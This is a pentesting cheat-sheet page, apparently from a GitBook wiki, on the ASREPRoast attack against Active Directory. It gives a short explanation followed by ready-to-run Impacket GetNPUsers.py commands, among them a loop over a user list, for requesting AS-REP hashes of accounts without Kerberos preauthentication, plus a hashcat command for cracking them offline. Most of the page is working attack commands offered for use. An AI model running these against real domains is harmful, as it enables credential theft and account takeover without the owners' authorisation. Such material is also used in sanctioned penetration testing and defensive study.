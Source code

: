 # ASREPRoast

{% hint style="info" %}
**In case of last resort.**&#x20;

**PS: This attack could be used in a post-compromise scenario but also in the initial attack vectors ;)**
{% endhint %}

## Brief

> ASREPRoast is about **retrieving crackable hashes** from **KRB5 AS-REP responses** for users **without kerberoast preauthentication** enabled.&#x20;
>
> This isn’t as useful as Kerberoasting, as accounts have to have _DONT\_REQ\_PREAUTH()_ explicitly set for them to be vulnerable and you’re still reliant upon weak password complexity for the attack to work. But who knows, might be the only weak point you need.&#x20;
>
> Now, if you can enumerate accounts in a Windows domain that don’t require Kerberos preauthentication, you can easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password.&#x20;
>
> **To do that you need to :**

1. Send the **KRB\_AS\_REQ** to get the **KRB\_AS\_REP** with the encrypted information, to do so :
   1. If you have username :
      1. `GetNPUser.py $domain/$username -no-pass -dc-ip $ip -request`
   2. If you have no username :
      1. `GetNPUser.py $domain/ -no-pass -dc-ip $ip -request`
2. Crack hashes :
   1. `hashcat -m 18200 ticket wordlist`

```bash
# MISC of commands
# list of users in users file
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip $ip $domain/${user} | grep -v Impacket; done

GetNPUsers.py -dc-ip $ip -request $domain/

GetNPUsers.py -dc-ip $ip -request $domain/ -format hashcat/john

GetNPUsers.py -dc-ip $ip -usersfile users.txt $domain/

GetNPUsers.py $domain/backup -no-pass

GetNPUsers.py -no-pass $domain/ -usersfile users.txt -format hashcat -outputfile hashes.txt
```
